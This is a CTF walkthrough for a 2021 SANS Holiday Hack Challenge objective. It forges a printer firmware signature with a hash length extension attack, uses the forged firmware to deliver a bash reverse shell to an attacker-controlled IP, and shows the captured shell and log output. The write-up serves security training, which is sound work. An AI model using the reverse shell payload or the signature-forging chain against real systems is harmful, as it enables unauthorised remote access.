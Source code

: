```yaml
---
title:  "Objective 7: Printer Exploitation - 2021 SANS Holiday Hack Challenge"
date:   "2022-01-05 00:07:00 -0800"
categories: HolidayHack2021
header:
 teaser: /assets/images/HolidayHack2021/printer_site.png
---
```


We're building some more penetration testing skills in this challenge. 

[Play the 2021 SANS Holiday Hack Challenge](https://2021.kringlecon.com/invite)

## Objective
In this objective, we're asked to do the following:
>Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of ''/var/spool/printer.log'. What is the name of the last file printed (with a ''.xlsx' extension)?

## Hints
- When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.
- [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) can be super handy when there's some type of validation to be circumvented.
- Files placed in `/app/lib/public/incoming` will be accessible under [https://printer.kringlecastle.com/incoming/](https://printer.kringlecastle.com/incoming/).
- Did you know that if you append multiple firmware files, the last one is processed?

## Enumeration
Heading to [https://printer.kringlecastle.com/](https://printer.kringlecastle.com/) gives us a printer management site.

![Printer Management Site](/assets/images/HolidayHack2021/printer_site.png)

Some of the options under "settings" and "reports" look interesting, but they are all protected by a password.

On the "firmware" tab, we can download the current firmware and upload new firmware, so that's something. Let's download the current firmware to start.

The firmware is a JSON file. Here's what it looks like:

```json
{
	"firmware" : <Giant base-64 encoded string>,
	"signature" : "e0b5855c6dd61ceb1e0ae694e68f16a74adb6f87d1e9e2f78adfee688babcf23",
	"secret_length" : 16,
	"algorithm" : "SHA256"

}
```

I can tell that the string is base-64 encoded because it ends with `==`, like many (but not all) base-64 strings.

Seems like the signature is likely some kind of combination of the secret plus the firmware all hashed together.

Let's take the firmware over to [CyberChef](https://gchq.github.io/CyberChef/) to decode it.

We'll throw the big string into the input field and we'll start with a 'From Base64' operation. That gives us mostly garbage out, but I can see some readable text ("firmware.bin") at the beginning and end, so we're on the right track.

Adding a 'Detect File Type' operation tells us it's a zip archive. Let's download this as `current_firmware.zip`

This zip file contains `firmware.bin`. Not much we can do with this file since it's not human-readable at the moment, but it's good to know what's in the zip.

## Exploitation

We can use some of the hints here:
- If we append a second zipped firmware file to our first zipped firmware file, the second one should be the one that executes.
- We can use the [hash_extender](https://github.com/iagox86/hash_extender) tool linked at the [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) link to fake the signature with the second file appended.


### Installing Hash Extender
Let's clone the hash_extender repository to our local machine.
```bash
git clone https://github.com/iagox86/hash_extender.git
```

Then we'll compile it:
```bash
cd hash_extender
make
./hash_extender_test
```

The tests passed, so we should be good to go.

### Prepping the Payload

Let's see if we can get away with something simple first. We'll just create a bash script and call it `firmware.bin`.

```bash
#! /bin/bash

/bin/bash -i >& /dev/tcp/<YOUR PUBLIC IP ADDRESS>/9002 0>&1
```

This should send us a reverse shell when it is run. I'm using port 9002 for no particular reason other than the fact that it's unlikely to conflict with any other running processes.

**Note:** Depending on your situation, when doing this, you may need to set up port forwarding on your router to send incoming traffic on port 9002 (or whatever port you chose) to your attacker machine.

Then we can zip the file up:
```bash
zip new_firmware.zip firmware.bin
```

Now we can turn our attention back to hash extender. What it is going to do for us is take the `current_firmware.zip` file, add some padding after it,  append the `new_firmware.zip` file we created, and forge a new signature that works for both files together.

The problem is that hash extender requires us to add the contents of what we want to append (`new_firmware.zip`) as a command-line argument, which doesn't work well for zip files.

The easiest way I found to do this was to encode the `new_firmware.zip` file to hex first using [CyberChef](https://gchq.github.io/CyberChef/).

**Procedure:**
1. Choose "Open file as input" in the top right hand corner of the input box
2. Add a "To Hex" operation to the Recipe
3. Change the delimiter to "None"

Now the output is the hex-encoded version of `new_firmware.zip` and it's ready to go into hash extender.

```bash
./hash_extender --file current_firmware.zip --secret 16 --format sha256 --signature "e0b5855c6dd61ceb1e0ae694e68f16a74adb6f87d1e9e2f78adfee688babcf23" --append-format hex -a "<INSERT NEW HEX-ENCODED FIRMWARE>"
```

**What are all these flags?**
- **-file:** This will allow us to use the existing firmware zip file as the "data" just by specifying the filename/filepath.
- **-secret:** This is the length of the secret, which we obtained from the current firmware JSON file.
- **-format:** This is the hash function used to create the signature. This was also obtained from the current firmware JSON file.
- **-signature:** This is the signature that was listed in the current firmware JSON file.
- **-append-format:** We encoded `new_firmware.zip` to hex, so we need to tell hash extender that.
- **-a:** The data we want to append. This is the hex-encoded 'new_firmware.zip' we got from CyberChef.


The output of this command contains a hex-encoded version of our appended firmware and our new signature.

Now we have to change the encoding on the appended firmware from hex to Base64. Back to [CyberChef](https://gchq.github.io/CyberChef/)!

Procedure:
1. Paste the hex-encoded version of the appended firmware into the input field
2. Add a "From Hex" step to the recipe
3. Add a "To Base64" set to the recipe under the "From Hex" step

Now the output should be our Base64-encoded payload!

Let's stick it into the JSON format that the server accepts along with the forged signature from the hash extender output.

I'm calling this file `new_firmware.json`

```json
{
	"firmware" : <Giant base-64 encoded string>,
	"signature" : <Forged Signature>,
	"secret_length" : 16,
	"algorithm" : "SHA256"
}
```

Now let's start a netcat listener in our terminal: 
```bash
nc -lvnp 9002
```

Once we upload `new_firmware.json` to the site, our listener catches a shell!

```bash
listening on [any] 9002 ...
connect to [<IP>] from (UNKNOWN) [34.72.79.63] 49418
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
app@hhc21-printer-v2:/app$
```

Now all we have to do is run:
```bash
cat /var/spool/printer.log
```

Output:
```
Documents queued for printing
=============================

Biggering.pdf
Size Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdf
LowEarthOrbitFreqUsage.txt
Best Winter Songs Ever List.doc
Win People and Influence Friends.pdf
Q4 Game Floor Earnings.xlsx
Fwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.eml
Troll_Pay_Chart.xlsx
```

**Answer:** Troll_Pay_Chart.xlsx